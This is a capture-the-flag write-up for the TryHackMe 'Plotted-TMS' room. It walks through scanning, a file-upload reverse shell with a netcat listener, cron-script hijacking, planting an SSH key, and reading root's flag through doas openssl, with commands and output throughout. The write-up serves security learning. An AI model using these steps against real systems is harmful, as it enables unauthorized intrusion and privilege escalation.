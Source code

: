 ## Plotted-TMS 

Room link: https://tryhackme.com/room/plottedtms

# Scanning 
I ran an aggressive NMAP scan with ```-A``` option. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-05 19:32 EDT
Nmap scan report for [Remote IP]
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.43 seconds
```
A full nmap scan affirmed the services on the target. 
```
ajread@aj-ubuntu:~$ nmap -p- [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-05 19:31 EDT
Nmap scan report for [Remote IP]
Host is up (0.10s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 708.46 seconds
```
# Enumeration
```
ajread@aj-ubuntu:~$ gobuster -u http://[Remote IP] -w /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://[Remote IP]/
[+] Threads      : 10
[+] Wordlist     : /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/04/05 20:11:29 Starting gobuster
=====================================================
/admin (Status: 301)
/shadow (Status: 200)
/passwd (Status: 200)
=====================================================
2022/04/05 20:29:50 Finished
=====================================================
```
```
ajread@aj-ubuntu:~$ gobuster -u http://[Remote IP]:445 -w /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://[Remote IP]:445/
[+] Threads      : 10
[+] Wordlist     : /home/ajread/resources/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/04/05 20:11:31 Starting gobuster
=====================================================
/management (Status: 301)
=====================================================
2022/04/05 20:29:50 Finished
=====================================================
```
# Initial Access
After doing some research online, it appeared that Traffic Offense Management system is susceptible to SQL injection or RCE (```https://www.exploit-db.com/exploits/50221```). First checking on SQL injection, I attempted to login with ```test:test``` and found that the response from the server contained SQL queries. 
```
{
  "status": "incorrect",
  "last_qry": "SELECT * from users where username = 'test' and password = md5('test') "
}
```
I found an exploit online that was listed as RCE and I used the username:password combination in the exploit to login to the TMS. Reading through the same exploit, I could upload anything on the ```admin/?page=user``` page, which is used to create a new user, as the user avatar. Therefore, I created a php reverse shell using pentest monkey to upload in the avatar section. 

Before uploading, I set up a listener on my local machine. 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
```
Finally, I uploaded the php reverse shell at ```http://[Remote IP]:445/management/admin/?page=user``` on the TMS and it called back! 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [Remote IP] 59404
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 23:56:52 up 27 min,  0 users,  load average: 5.87, 3.24, 1.97
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I made sure to upgrade my shell. 
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plotted:/home/plot_admin$ 
```
In order to see user.txt, I had to become the plot_admin user. It appeared that a backup shell script (called ```backup.sh```) ran periodically as user plot_admin on the system when I looked at the cronjobs. I needed to find a way to have that same mechanism execute my own shell script as user plot_admin. I found out that I have write access to the ```/var/www/scripts``` directory, where the shell script sat. I was lost for a while, so I used infinity's write up here: ```https://wiki.thehacker.nz/docs/thm-writeups/plotted-tms-easy/``` to help me figure out a way to link a shell script that would execute ```/bin/bash``` to the ```backup.sh``` shell script. 

As a result, I escalated to user plot_admin. 
```
www-data@plotted:/$ /home/plot_admin/pa_shell -p
/home/plot_admin/pa_shell -p
pa_shell-5.0$ id
id
uid=33(www-data) gid=33(www-data) euid=1001(plot_admin) egid=1001(plot_admin) groups=1001(plot_admin),33(www-data)
pa_shell-5.0$ whoami
whoami
plot_admin
```
And got the user flag. 
```
pa_shell-5.0$ wc -c /home/plot_admin/user.txt
wc -c /home/plot_admin/user.txt
33 /home/plot_admin/user.txt
```
# Privilege Escalation 
I added my public ssh key as an authorized key on the target machine so that I was able to ssh into the target. 
```
ajread@aj-ubuntu:~$ ssh plot_admin@[Remote IP]
```
Looking around for possible privilege escalation techniques, it appeared that user plot_admin could run openssl as root without a password. 
```
plot_admin@plotted:~/tms_backup$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```
I checked out the GTFOBins website to see if I could use openssl for priv esc (https://gtfobins.github.io/gtfobins/openssl/). It looked like I could with: 
```
LFILE=file_to_read
openssl enc -in "$LFILE"
```
Combining the information I found, I tried to read the flag within the root home directory. And it worked! 
```
plot_admin@plotted:~/tms_backup$ doas openssl enc -in "/root/root.txt"
Congratulations on completing this room!

[REDACTED]

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```

# Assistance 

Done with help from: https://wiki.thehacker.nz/docs/thm-writeups/plotted-tms-easy/